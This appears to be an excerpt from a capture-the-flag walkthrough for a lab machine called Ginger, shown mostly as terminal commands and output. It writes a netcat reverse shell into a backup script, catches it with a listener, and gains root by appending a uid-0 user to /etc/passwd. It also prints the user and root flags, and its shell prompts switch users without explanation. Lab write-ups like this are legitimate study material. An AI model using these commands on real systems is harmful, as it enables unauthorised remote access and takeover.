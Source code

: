     webmaster@ginger:/home/caroline/backup$ rm backup.sh
    rm: remove write-protected regular file 'backup.sh'? y
    webmaster@ginger:/home/caroline/backup$ ls -l
    total 0
    webmaster@ginger:/home/caroline/backup$ touch backup.sh
    webmaster@ginger:/home/caroline/backup$ chmod +x backup.sh
    webmaster@ginger:/home/caroline/backup$ echo 'nc 10.0.0.27 6666 -e /bin/bash' > backup.sh

    Local Host:

    root@kali ~/D/M/Ginger# nc -lnvp 6666
    listening on [any] 6666 ...
    connect to [10.0.0.27] from (UNKNOWN) [10.0.0.26] 52206
    whoami
    caroline

    caroline@ginger:~$ cat user.txt
    cat user.txt
    f65aaadaeeb04adaccba45d7babf5f8c

>

    caroline@ginger:~$ sudo -ll
    sudo -ll
    Matching Defaults entries for caroline on ginger:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

    User caroline may run the following commands on ginger:

    Sudoers entry:
        RunAsUsers: ALL
        RunAsGroups: ALL
        Options: !authenticate
        Commands:
            /srv/code  

    sabrina@ginger:~$ openssl passwd -1
    password: 1

After running the **'code'** binary as the user caroline we can edit the **'/etc/passwd'** file and switch to a user with root privileges. 

    sabrina@ginger:~$ echo 'rooter:$1$0XYTpFE8$W.foK2azW7vh8w39taS1I1:0:0:root:/root:/bin/bash' >> /etc/passwd 

    sabrina@ginger:~$ su rooter
    password: 1

    root@ginger:/home/sabrina# id -a
    uid=0(root) gid=0(root) groups=0(root)

    root@ginger:~# cat root.txt
    ae426c9d237d676044e5cd8e8af9ef7f

[1]: "https://www.exploit-db.com/exploits/37560"